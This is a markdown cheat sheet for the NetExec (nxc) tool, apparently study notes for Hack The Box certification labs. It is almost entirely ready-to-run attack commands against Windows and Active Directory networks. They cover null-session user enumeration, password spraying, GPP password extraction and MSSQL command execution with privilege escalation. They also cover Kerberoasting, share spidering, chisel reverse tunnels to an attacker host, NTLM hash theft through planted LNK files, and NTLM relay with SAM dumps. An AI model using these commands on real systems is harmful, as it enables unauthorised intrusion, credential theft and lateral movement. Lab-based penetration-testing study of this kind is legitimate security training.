

# NXC Cheatsheet

## General

## Non-Credentialed enumeration
### Basic SMB Recon
* Scan for live targets
```bash
nxc smb 172.16.10.0/24
```
* Scan for smb signing disabled and generate a relay list
```bash
nxc smb 172.16.10.0/24 --gen-relay-list relaylist.txt
```

### Null/Anon Sessions
* Enumerate password policy
```bash
nxc smb 172.16.10.10 -u '' -p '' --pass-pol
```
* Export password policy to json and clean up
```bash
nxc smb 172.16.10.10 -u '' -p '' --pass-pol --export passpol.txt

# Clean up the exported json
sed -i "s/'/\"/g" passpol.txt
```
* Enumerate users
```bash
nxc smb 172.16.10.10 -u '' -p '' --users --export users.txt

# Clean up the exported list
sed -i "s/'/\"/g" users.txt
jq -r '.[]' users.txt > userslist.txt
```
* Enumerate users through RID brute force
> By default, --rid-brute only tries 4000 RIDs. Specify an upper limit with --rid-brute [max rid]  
```bash
nxc smb 172.16.10.10 -u '' -p '' --rid-brute
```
* Enumerating shares
```bash
nxc smb $IP -u '' -p '' --shares
```

### Password Spraying
#### Targeting SMB and general usage
* Create a list of usernames and password (for this example, users.txt and passwords.txt)
> -u and -p can both either take a single name, space separated names, or a filename
```bash
# multiple names and single password
nxc smb $IP -u name1 name2 name3 -p password1

# single name and multiple passwords
nxc smb $IP -u name1 -p password1 password2 password3

# lists
nxc smb $IP -u users.txt -p passwords.txt
```
> By default, nxc will stop on the first match it finds, to try them all, use --continue-on-success  
* Testing if credentials are still valid (testing one username per one password in a list
```bash
nxc smb $IP -u foundusers.txt -p matchingpasswords.txt --no-bruteforce --continue-on-success
```
* Testing Local Accounts
> Use the --local-auth flag to test local accounts
```bash
nxc smb $IP -u users.txt -p passwords.txt --local-auth --continue-on-success
```

#### Account Status
* Green = Username and password is valid
* Red = Invalid username and password
* Magenta = Username and password is valid, but auth unsuccessful
> Auth maybe unsuccessful for alot reasons, one of them being a password change is required  
* change a users password via impackets smbpassword
```bash
smbpassword -r [domain or IP] -u [user]
```
#### Targeting WinRM
> winrm gives command execution on the target
```bash
nxc winrm $IP -u foundusers.txt -p foundpasswords.txt --continue-on-success
```
#### Targeting LDAP
> ldap requires the use of FQDN's. Either add to hosts file or use the targets DNS
```bash
nxc smb ldap -u users.txt -p passwords.txt
```
#### Targeting MSSQL
> SQL, SSH, and FTP are unique in that they can use local users, their own local db users, or domain users. You must specify the domain name if trying a domain account.
```bash
#AD Domain account
nxc mssql $IP -u [user] -p [pass] -d [domain]

#Local Windows Account
nxc mssql $IP -u [user] -p [pass] -d .

#SQL Account
nxc mssql $IP -u [user] -p [pass] --local-auth
```
> Lookout for reused passwords. A DB admin may use the same credentials as their domain account just stored in the DB

## Credentialed enumeration
### Accounts in group policy objects
```bash
# search for passwords in group policy objects
nxc smb $IP -u [user] -p [pass] -M gpp_password

# Search for autologin accounts
nxc smb $IP -u [user] -p [pass] -M gpp_autologin
```
### Modules
* List all modules for the protocol
```bash
nxc smb -L
```
* View Module Options
```bash
nxc ldap -M user-desc --options

# example
nxc ldap -u [user] -p [pass] -M user-desc -o KEYWORDS=pwd,admin
```
### MSSQL Enum & Attacks
* Execute an SQL Query
```bash
nxc mssql $IP -u [user] -p [pass] -q
```
* Useful DB Queries
```bash
# Get all DB names
nxc mssql $IP -u [user] -p [pass] -q 'SELECT name FROM master.dbo.sysdatabases'

# Get table names form a DB
nxc mssql $IP -u [user] -p [pass] -q 'SELECT table_name from [DB].INFORMATION_SCHEMA.TABLES'

# Dump contents of a table
nxc mssql $IP -u [user] -p [pass] -q 'SELECT * from [db name].[dbo].[table name]'
```
### OS command execution
```bash
# Using cmd
nxc mssql $IP -u [user] -p [pass] -x whoami

# Using Powershell
nxc mssql $IP -u [user] -p [pass] -X whoami #Note the capital 'X'
```
> Remember you'll be executing commands under the context under which SQL is running. Not necessarily an admin  
### Transferring Files
```bash
# Upload a file
nxc mssql $IP -u [user] -p [pass] --put-file [local file path] [target file path]
#ex
nxc mssql 172.168.15.10 -u julio -p [pass] --put-file /etc/passwd c:/users/public/passwd

# Download a file
nxc mssql $IP -u [user] -p [pass] --get-file [download file path] [save path]
#ex
nxc mssql 172.16.15.10 -u julio -p [pass] --get-file c:/users/public/passwd passwd
```
### SQL Priv-Esc module
> Used to enumerate and escalate privileges via 'execute as login' and 'db_owner'  
```bash
# Enum privileges
nxc mssql $IP -u [user] -p [pass] -M mssql_priv

# Escalate if available
nxc mssql $IP -u [user] -p [pass] -M mssql_priv -o ACTION=privesc

# Rollback privileges
nxc mssql $IP -u [user] -p [pass] -M mssql_priv -o ACTION=rollback
```
### Kerberoasting
> find kerberoastable accounts and get their hash.  
> Note: You must use the FQDN of the DC. Add it to hosts or use the DC's DNS.  
```bash
nxc ldap [FQDN of DC] -u [user] -p [pass] --kerberoasting kerberoasting.out
```
### Spidering and LOTL
> Start with useing '--shares' to find out which shares you can access
```bash
# Finding all files
nxc smb $IP -u [user] -p [pass] --spider [sharename] --regex .

# Finding files by a pattern (ie: extension)
nxc smb $IP -u [user] -p [pass] --spider [sharename] -pattern txt

# Searching file contents
nxc smb $IP -u [user] -p [pass] --spider [sharename] --content --regex [search term]
```
* File transfer
```bash
# --get-file
nxc smb $IP -u [user] -p [pass] --share [sharename] --get-file [remote file] [save file]

# --put-file
nxc smb $IP -u [user] -p [pass] --share [sharename] --put-file [local file] [remote file]
```
### Spider_plus
> Use this to exclude shares like IPC$,print$, NETLOGON, SYSVOL
```bash
# Exclude directories
nxc smb $IP -u [user] -p [pass] -M spider_plus -o EXCLUDE_DIR=IPC$,print$,NETLOGON,SYSVOL

# Downlaod all files in the shares
nxc smb $IP -u [user] -p [pass] -M spider_plus -o EXCLUDE_DIR=IPC$,print$,NETLOGON,SYSVOL READ_ONLY=false
```
### NXC with Proxychains
#### Scenario


#### Setup the Tunnel using [Chisel](https://github.com/jpillora/chisel)
##### Reverse Tunnel
* Setup up the listener on attack host
```bash
./chisel server --reverse
```
* Upload and execute chisel using nxc
```bash
nxc smb 10.129.204.133 -u [user] -p [pass] --put-file ./chisel.exe \\Windows\\Temp\\chisel.exe
nxc smb 10.129.204.133 -u [user] -p [pass] -x 'C:\Windows\Temp\chisel.exe client [attacker ip:port] R:socks'
```
* Configure Proxychains to use chisel
```bash
# Add the following to the end of /etc/proxychians4.conf:
socks5  127.0.0.1 1080
```
* Test the configuration
```bash
sudo proxychains4 -q nxc smb 172.16.1.10 -u [user] -p [pass] --shares
```
* kill the chisel client
```bash
nxc smb $IP -u [user] -p [pass] -X 'Stop-Process -Name chisel -Force'
```
##### Windows as the server with linux client
* Setup the listener on the pivot host
```bash
nxc smb $IP -u [user] -p [pass] -x 'C:\Windows\Temp\chisel.exe server --socks5'
```
* Connecting from the attack host
```bash
sudo chisel client $IP:8080 socks
```
* Test
```bash
sudo proxychains4 -q nxc smb $IP 0u -u [user] -p [pass] --shares
```
### Stealing Hashes
#### Slinky Module
> Creates a LNK file with the icon attribute pointing to an attack host  
> 2 mandatory options - Server (Attack host) and Name (Arbitrary file name) and one optional option - Cleanup  
> Requires a writable share  
* Execute the attack
```bash
proxychains4 -q nxc smb $IP -u [user] -p [pass] -M slinky -o SERVER=[AttackerIP] NAME=[Attractive Name]
```
* Start Responder to capture the hashes
> Make sure the smb option is enabled in responder
```bash
sudo responder -I tun0
```
* Crack the hash, if crackable
#### NTLM Relay
> Relay the NTLMv2 hash directly to other machines with SMB Signing disabled. See [Basic SMB Recon](https://github.com/Chvxt3r/HackTools/blob/main/cert_notes/htb/nxc.md#basic-smb-recon) for list generation
* After starting responder, start impacket-ntlmrelayx(ntlmrelayx.py)
```bash
sudo proxychains4 -q impacket-ntlmrelayx -tf [relayfile.txt] -smb2support --no-http
```
> If a user has permissions(admin), ntlmrelayx will automatically dump the sam and provide local hashes.
#### Cleanup
* Removing the LNK file
```bash
proxychains4 -q nxc smb $IP -u [user] -p [pass] -M slinky -o NAME=[LNK name] CLEANUP=YES
```
#### drop-sc Module
> Uses '.searchConnector-ms' and '.library-ms' files rather than LNK files.  
> Required Options: URL (URL must be escaped with double backslashes) ex: URL=\\\\10.10.14.33\\secret  
> Optional: SHARE=[sharename], FILENAME=[filename], CLEANUP=True  
* Execute the drop-sc
```bash
proxychains4 nxc smb $IP -u [user] -p [pass] -M drop-sc URL=\\\\[AttackerIP]\\[file] SHARE=[share name] FILENAME=[filename]
```
* Drop-sc can be relayed the same as LNK above
* Cleanup
```bash
proxychains4 -q nxc smb $IP -u [user] -p [pass] -M drop-sc -o CLEANUP=True FILENAME=[filename]
```

## Admin Credentialed enumeration

## Remote Shell

## Modules

## Misc

## Database
